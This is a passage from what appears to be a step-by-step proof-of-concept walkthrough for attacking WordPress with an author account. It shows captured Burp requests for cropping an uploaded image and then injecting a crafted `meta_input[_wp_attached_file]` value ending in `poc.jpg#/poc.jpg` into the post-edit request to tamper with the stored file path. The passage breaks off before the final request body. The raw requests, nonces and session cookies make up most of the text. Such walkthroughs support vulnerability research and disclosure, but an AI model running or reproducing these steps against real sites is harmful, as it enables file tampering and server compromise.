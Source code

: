 ```
_wpnonce=ab3340b93c&_wp_http_referer=%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&user_ID=2&action=editpost&originalaction=editpost&post_author=2&post_type=attachment&original_post_status=inherit&referredby=http%3A%2F%2F34.211.248.202%2Fwp-admin%2Fupload.php%3Fitem%3D6&_wp_original_http_referer=http%3A%2F%2F34.211.248.202%2Fwp-admin%2Fupload.php%3Fitem%3D6&post_ID=6&meta-box-order-nonce=539523098a&closedpostboxesnonce=f7481e5cf7&post_title=poc&samplepermalinknonce=90f8d66414&excerpt=&_wp_attachment_image_alt=&content=&attachment_url=http%3A%2F%2F34.211.248.202%2Fwp-content%2Fuploads%2F2019%2F02%2Fpoc.jpg&original_publish=Update&save=Update&advanced_view=1&comment_status=open&add_comment_nonce=e7116231cd&_ajax_fetch_list_nonce=0163224a2a&_wp_http_referer=%2Fwp-admin%2Fpost.php%3Fpost%3D6%26action%3Dedit&post_name=poc
```

#### 5. Crop the image
* Go to `Media` and select the image uploaded in step 4;
* Click `Edit Image` to crop the image and then click `Save`;
* Check in Burp you will see a POST request `/wp-admin/admin-ajax.php` similar as below and then send it to Repeater:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.211.248.202/wp-admin/upload.php?item=6&mode=edit
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 174
Cookie: wordpress_9f977c8ffc2c97b0c848277689037ed1=author%7C1551298764%7CkwllUoWifopUBYobsNWYqsJTJ1tnI3enLdT6Hx4GdoR%7Cc9a1b8db83347d7e7893f8b871033a3cf8c8d90c0164b9e293e397a46da02df8; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_9f977c8ffc2c97b0c848277689037ed1=author%7C1551298764%7CkwllUoWifopUBYobsNWYqsJTJ1tnI3enLdT6Hx4GdoR%7Cd0d730cf25331c60b4c2ff475f5d9b38ed95d308dcc3452eba307eaa6367d9d8; wp-settings-time-2=1551126785
Connection: close

action=image-editor&_ajax_nonce=0fc4799ff5&postid=6&history=%5B%7B%22c%22%3A%7B%22x%22%3A10%2C%22y%22%3A13%2C%22w%22%3A32%2C%22h%22%3A26%7D%7D%5D&target=full&context=&do=save
```

#### 6. Update attached file to `poc.jpg#/poc.jpg`
* Add `&meta_input[_wp_attached_file]=<CURRENT YEAT>/<CURRENT MONTH>/poc.jpg#/poc.jpg` (e.g. `&meta_input[_wp_attached_file]=2019/02/poc.jpg#/poc.jpg` for February, 2019) in the POST request `/wp-admin/post.php` captured in step 4 in Burp Repeater similar as below and then click `Go`.

```
POST /wp-admin/post.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://34.211.248.202/wp-admin/post.php?post=6&action=edit
Content-Type: application/x-www-form-urlencoded
Content-Length: 832
Cookie: wordpress_9f977c8ffc2c97b0c848277689037ed1=author%7C1551298764%7CkwllUoWifopUBYobsNWYqsJTJ1tnI3enLdT6Hx4GdoR%7Cc9a1b8db83347d7e7893f8b871033a3cf8c8d90c0164b9e293e397a46da02df8; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_9f977c8ffc2c97b0c848277689037ed1=author%7C1551298764%7CkwllUoWifopUBYobsNWYqsJTJ1tnI3enLdT6Hx4GdoR%7Cd0d730cf25331c60b4c2ff475f5d9b38ed95d308dcc3452eba307eaa6367d9d8; wp-settings-time-2=1551126207
Connection: close
Upgrade-Insecure-Requests: 1

```